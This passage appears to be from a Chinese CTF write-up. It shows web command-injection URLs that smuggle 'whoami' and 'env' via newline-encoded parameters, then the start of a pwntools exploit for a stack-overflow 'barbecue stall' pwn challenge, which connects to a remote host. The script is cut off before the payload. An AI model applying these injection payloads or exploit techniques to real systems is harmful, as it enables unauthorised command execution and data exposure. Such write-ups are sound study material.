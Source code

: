 ![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-081f00631fe7a11c95bbde993c5641ce94afd510.png)

/?db=bibin&amp;table\_2\_dump=%0a

![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-0e60805a815f535cc40c357c73b1b630f8637e1d.png)

/?db=q&amp;table\_2\_dump=%0awhoami%0a /?db=q&amp;table\_2\_dump=%0env%0a //环境变量

![](https://shs3.b.qianxin.com/attack_forum/2023/05/attach-9717304052e225cc61bc8cc123abd71bec6662c3.png)

Pwn
===

- - - - - -

烧烤摊儿
----

要负数瓶酒来加钱买摊，之后栈溢出orw

```Python
from pwn import *
from LibcSearcher import *
context(os = 'linux',arch = 'amd64',log_level = 'debug')

mode = 0
if mode == 1:
    fang = process("./shaokao")  
else:
    fang = remote("39.106.48.123",34543)

def debug():
    gdb.attach(fang)
    pause()

def pijiu(idx,num):
    fang.recvuntil("> ")
    fang.sendline(str(1))
    fang.recvuntil("3. 勇闯天涯\n")
    fang.sendline(str(idx))
    fang.recvuntil("来几瓶？\n")
    fang.sendline(str(num))

def chuan(idx,num):
    fang.recvuntil("> ")
    fang.sendline(str(2))
    fang.recvuntil("3. 鸡肉串\n")
    fang.sendline(str(idx))
    fang.recvuntil("来几串？\n")
    fang.sendline(str(num))

def yue():
    fang.recvuntil("> ")
    fang.sendline(str(3))

def chengbao():
    fang.recvuntil("> ")
    fang.sendline(str(4))

def gaming(cont):
    fang.recvuntil("> ")
    fang.sendline(str(5))
    fang.recvuntil("烧烤摊儿已归你所有，请赐名：\n")
    fang.sendline(cont)

pop_rdi_ret = 0x000000000040264f # : pop rdi ; ret
```